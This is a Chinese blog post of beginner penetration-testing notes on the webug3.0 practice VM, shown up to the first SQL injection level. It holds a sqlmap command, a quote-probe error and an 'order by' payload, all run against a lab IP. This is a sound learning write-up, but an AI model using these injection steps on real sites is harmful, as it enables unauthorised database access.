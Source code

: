 ```yaml
---
title: webug3.0渗透基础学习笔记
categories:
- 渗透
tags:
- webug3.0
updated: 2018-07-13
---
```




 webug3.0适合新手进行学习渗透基础，前段时间在一篇文章上看到的，现在好像已经不开源了，内部使用了，国产的，其实更像是ctf比赛，放上链接：   https://pan.baidu.com/s/1A0FwSGVZHHxtdDVxGTvmXg   密码：ijyb

这个是以前写的，中间可能有错误，我就不再一一去更新了，有错误请在下面留言。





下载下来之后进行解压：  

<img src="{{ site.url }}/assets//blog_images/2018/7月/webug3.0_01.png" />

解压之后大概19g左右，然后直接在虚拟机中打开即可，在虚拟机中找到cmd，ipconfig之后查看ip地址，在物理机的浏览器中直接打开即可：

<img src="{{ site.url }}/assets//blog_images/2018/7月/webug3.0_02.png" />

### 第一关：很简单的一个注入 普通的GET注入

<img src="{{ site.url }}/assets//blog_images/2018/7月/webug3.0_1_01.png" />

既然这样说了，先使用sqlmap来跑一下：

`sqlmap.py -u "http://192.168.78.130/pentest/test/sqli/sqltamp.php?gid=1" --dbs`



<img src="{{ site.url }}/assets//blog_images/2018/7月/webug3.0_1_02.png" />

跑出来之后好像玩的有点大，数据库全部都出来了还是换一种方法吧，使用手工：

直接在原来的url上加一个  '  直接报错：

<img src="{{ site.url }}/assets//blog_images/2018/7月/webug3.0_1_03.png" />



could not to the database You have an error in your SQL syntax; check the manual that corresponds  to your MySQL server version for the right syntax to use near ''1''' at  line 1 

这个报错信息已经很明显了，多了一个 '    然后构造语句猜字段：

`http://192.168.78.130/pentest/test/sqli/sqltamp.php?gid=-1' order by 10%23`（先从10开始猜，发现这个时候报错）

然后再猜5  还是报错

<img src="{{ site.url }}/assets//blog_images/2018/7月/webug3.0_1_04.png" />
